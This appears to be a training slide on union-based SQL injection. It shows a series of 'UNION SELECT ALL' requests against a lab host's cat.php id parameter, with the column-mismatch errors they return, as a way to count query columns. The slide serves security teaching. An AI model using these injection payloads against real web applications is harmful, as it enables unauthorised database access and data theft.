

# Union-Based SQL Injection
http://192.168.43.130/cat.php?id=1 UNION SELECT ALL 1--
The used SELECT statements have a different number of columns
http://192.168.43.130/cat.php?id=1 UNION SELECT ALL 1,2--
The used SELECT statements have a different number of columns
http://192.168.43.130/cat.php?id=1 UNION SELECT ALL 1,2,3--
The used SELECT statements have a different number of columns

"The UNION SELECT ALL ...." part is a common SQLi trick

This is integer based, so no tick required